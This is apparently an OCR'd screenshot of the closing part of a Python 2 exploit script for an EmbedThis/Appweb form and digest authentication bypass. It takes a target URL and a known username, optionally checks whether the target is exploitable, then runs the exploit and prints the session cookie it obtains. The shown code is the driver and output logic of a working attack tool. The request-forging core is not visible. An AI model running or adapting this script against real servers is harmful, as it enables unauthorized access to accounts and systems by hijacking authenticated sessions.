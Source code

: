 ```python
	print(r.content)
    if r.status_code != 200 or len(r.cookies) < 1:
        print "[!] Exploit failed, HTTP status code {}".format(r.status_code)
        return
    print "[*] Succesfully exploited, here's your c00kie:\n  {}".format(dict(r.cookies))
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Test&Exploit EmbedThis form/digest authentication bypass (CVE-XXXX-YYYY)")
    parser.add_argument('-t', '--target', required=True, help="specify the target url (i.e., http(s)://target-url[:port]/)")
    parser.add_argument('-u', '--user', required=True, help="you need to know a valid user name")
    parser.add_argument('-c', '--check', action='store_true', default=False, help="test for exploitability without running the actual exploit")
    parser.add_argument('-f', '--force', action='store_true', default=False, help="skip exploitability test")
    args = parser.parse_args()
    url = args.target
    username = args.user
    t = "form" # default will try form/post
    if args.check or not args.force:
        t = test(url)
    if t is None:
        print "[!] Target does not appear to be Appweb/Embedthis HTTP with form/post auth (force with -f)"
    else:
        print "[+] Potential appweb/embedthis http, {} method".format(t)
    if not args.check:
        print "[!] Exploiting {}, user {}!".format(url, username)
        exploit(url, username, t)
```
